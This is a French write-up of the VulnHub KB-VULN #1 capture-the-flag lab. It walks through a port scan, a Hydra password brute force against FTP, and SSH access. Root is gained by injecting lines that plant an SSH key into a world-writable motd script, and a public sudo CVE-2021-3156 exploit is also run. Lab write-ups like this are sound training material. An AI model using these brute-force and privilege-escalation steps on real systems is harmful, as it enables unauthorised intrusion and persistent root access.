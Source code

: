 ```yaml
---
title: Solution du CTF KB-VULN #1 de VulnHub
tags: [CTF, VulnHub]
---
```


Rapide et furieux
-----------------

Combien de temps faut-il pour résoudre un CTF ? Tout dépend bien sûr de la difficulté du challenge et des compétences du joueur.  

Pour celui-ci ([KB-VULN n°1](https://www.vulnhub.com/entry/kb-vuln-1,540/)) on est bien plus près des minutes que des heures, il n'en reste pas moins qu'on peut s'amuser (vite fait).  

```plain
Nmap scan report for 192.168.56.5
Host is up (0.00015s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 95:84:46:ae:47:21:d1:73:7d:2f:0a:66:87:98:af:d3 (RSA)
|   256 af:79:86:77:00:59:3e:ee:cf:6e:bb:bc:cb:ad:96:cc (ECDSA)
|_  256 9d:4d:2a:a1:65:d4:f2:bd:5b:25:22:ec:bc:6f:66:97 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: OneSchool — Website by Colorlib
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 08:00:27:09:6B:FC (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Dans le FTP on trouve un fichier *.bash\_history*. Est-ce le dossier personnel d'un utilisateur quelconque ? Dans tous les cas on ne dispose pas d'accès en écriture donc on s'arrête là.  

Une énumération de la racine web ne remonte rien, mais un coup d'œil à la source de la page d'index permet de trouver un nom d'utilisateur :  

```html
<!-- Username : sysadmin -->
```

Aussitôt dit, aussitôt cracké :  

```plain
$ ./hydra -l sysadmin -P rockyou.txt -e nsr ftp://192.168.56.5
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344407 login tries (l:1/p:14344407), ~896526 tries per task
[DATA] attacking ftp://192.168.56.5:21/
[21][ftp] host: 192.168.56.5   login: sysadmin   password: password1
1 of 1 target successfully completed, 1 valid password found
```

Cet identifiant permet l'accès au FTP mais surtout au SSH où l'on retrouve un premier flag.  

```plain
sysadmin@kb-server:~$ cat user.txt 
48a365b4ce1e322a55ae9017f3daf0c0
```

Cet utilisateur fait partie des groupes sudo et lxd :  

```plain
uid=1000(sysadmin) gid=1000(sysadmin) groups=1000(sysadmin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

Un petit coup de LinPEAS indique que le fichier */etc/update-motd.d/00-header* appartenant à root mais est word-writable.  

D'après [la page de manuel](https://manpages.ubuntu.com/manpages/bionic/man5/update-motd.5.html) :  

```plain
Executable scripts in /etc/update-motd.d/* are executed by pam_motd(8) as the root user at
each  login,  and  this  information  is  concatenated in /run/motd.dynamic.
```

Le script actuel est le suivant :  

```bash
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release

echo "\n\t\t\tWELCOME TO THE KB-SERVER\n"
```

Je rajoute ces lignes :

```bash
echo $(id)
mkdir -p /root/.ssh
echo 'ssh-rsa --ma-cle-publique-ssh--' > /root/.ssh/authorized_keys
```

Et effectivement si je me reconnecte :  

```plain
$ ssh sysadmin@192.168.56.5
sysadmin@192.168.56.5's password: 

                        WELCOME TO THE KB-SERVER

uid=0(root) gid=0(root) groups=0(root)
```

Ce qui prouve que le script a été exécuté en root et que je me suis rajouté un accès.  

```plain
root@kb-server:~# cat flag.txt 
1eedddf9fff436e6648b5e51cb0d2ec7
```

On peut aussi obtenir l'accès root via [l'exploit pour sudo](https://github.com/worawit/CVE-2021-3156) utilisé sur le précédent CTF (Fawkes) :  

```plain
sysadmin@kb-server:~/CVE-2021-3156-main$ python3 exploit_nss.py
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(sysadmin)
```


*Published December 07 2021 at 21:51*

